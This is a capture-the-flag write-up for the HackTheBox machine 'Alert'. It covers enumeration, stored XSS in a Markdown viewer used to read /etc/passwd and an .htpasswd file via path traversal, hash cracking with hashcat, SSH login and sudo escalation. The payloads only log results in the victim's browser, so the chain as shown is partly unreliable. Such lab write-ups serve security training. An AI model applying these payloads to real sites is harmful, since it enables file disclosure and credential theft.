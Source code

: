 # Alert

`Alert` is a Linux machine that is rated as easy. It is a great box for beginners and is a good way to get introduced to the platform. 

[Alert](https://app.hackthebox.com/machines/Alert)

## `nmap`

We will begin by enumerating open services using `nmap`. 
We will find that there is a web server running on port 80. 

```bash
Nmap scan report for 10.129.128.62
Host is up (0.095s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://alert.htb/
12227/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> The web server can be accessed by visiting `http://alert.htb/` after adding the IP and Hostname to the `/etc/hosts` file.

This web server is a Markdown Viewer where you can upload and view markdown files.
This server also allow to contact the admin by sending a message.
There is also a About page and a Donate page.

## `ffuf`

Let's now, fuzz the web server using `ffuf` to find any hidden directories or virtual hosts.

1. Directories fuzzing

```bash
ffuf -u http://alert.htb/FUZZ -w /usr/share/wordlists/*
```

> We will find that there is a file named `messages.php` in the root directory.

2. Virtual Host fuzzing

```bash
ffuf -u http://FUZZ.alert.htb -w /usr/share/wordlists/* -H "Host: FUZZ.alert.htb"
```

> There is also a Virtual Host named `statistics.alert.htb` !

3. Virtual Host Directories fuzzing

```bash
ffuf -u http://statistics.alert.htb/FUZZ -w /usr/share/wordlists/*
```

> Many `.ht*` files are found in the root directory of the Virtual Host.
> This means it uses Apache !

## `Burp Suite`

Let's now intercept requests when uploading Markdown files and while sending a message to the admin.

1. Uploading Markdown file

- The file is uploaded to the `/uploads` directory.
- The file is processed with `.php` to view the content.
- The site proposed a link to share the file.

2. Sending a message to the admin

- The message is sent to the admin.
- The message is processed with a `GET` to it !?

## `LFI`

We can exploit a Local File Inclusion vulnerability to read the `/etc/passwd` file.
Let's write a Markdown file with a `JavaScript` payload to read the `/etc/passwd` file within `HTML` tags !

```markdown
<script>
    fetch('/messages.php?file=../../../etc/passwd')
    .then(response => response.text())
    .then(data => {
        console.log(data);
    });
</script>
```

Let's upload the file with the Markdown Viewer then copy the link to share it.
We will now send the link to the admin and intercept the request for getting his administrator rights !

> We will find that two users are present on the machine: `albert' and 'david'.

Let's try an other to read `statistic.alert.htb/.htpasswd` file !

```markdown
<script>
    fetch('statistics.alert.htb/.htpasswd')
    .then(response => response.text())
    .then(data => {
        console.log(data);
    });
</script>
```

> We will find that the `.htpasswd` file contains the credentials for the `albert` user !

```plaintext
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

## `hashcat`

We can crack the password hash using `hashcat` with the following command.

```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

> The password is `manchesterunited`.

## User Flag

Let's now connect to the machine using the `albert` user.

```bash
ssh albert@alert.htb
```

> We can now read the `user.txt` file in the home directory of the `albert` user.

## Root Flag

Let's see what Albert can do.

```bash
sudo -l
```

> Albert can run everything !

Let's now get the root flag !

```bash
sudo su
cd
cat root.txt
```

DONE !
